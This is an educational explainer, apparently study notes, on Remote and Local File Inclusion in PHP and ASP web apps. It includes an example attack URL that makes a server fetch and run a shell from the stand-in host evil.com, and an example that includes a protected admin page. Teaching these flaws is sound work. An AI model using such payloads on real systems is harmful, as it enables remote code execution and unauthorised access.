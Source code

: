 So if a normal user visits:

```
https://wahh-app.com/main.php?Country=US
```

The server internally does:

```
include('US.php'); // from the local file system
```

But a malicious attacker could do:

```
https://wahh-app.com/main.php?Country=http://evil.com/shell
```

And now this happens:

```php
include('http://evil.com/shell'); // fetched and executed
```

That’s **instant RCE** — Remote Code Execution — just by loading external malicious PHP code.

> 🛑 *Only languages like PHP allow this kind of remote file loading in their default configurations (if `allow_url_include` is enabled).*

---

### 🐍 **Local File Inclusion (LFI)**

Local File Inclusion happens when the app uses **user input to include files from its own file system** (not remote URLs). It may not be as flashy as RFI, but it’s still deadly.

---

#### 🧪 Local Example:

```asp
Server.Execute(user_supplied_input)
```

Even if the app blocks you from visiting `/admin`, you can do:

```
Server.Execute("/admin/secret_panel.asp")
```

Now you’ve **included protected admin code** into a page that you *can* access.

---

### 🚩 What can LFI do?

* **Leak source code**
* **Bypass access control** (include restricted modules)
* **Leak configuration or logs**
* **Escalate to RCE** when paired with file write (e.g., log poisoning)

---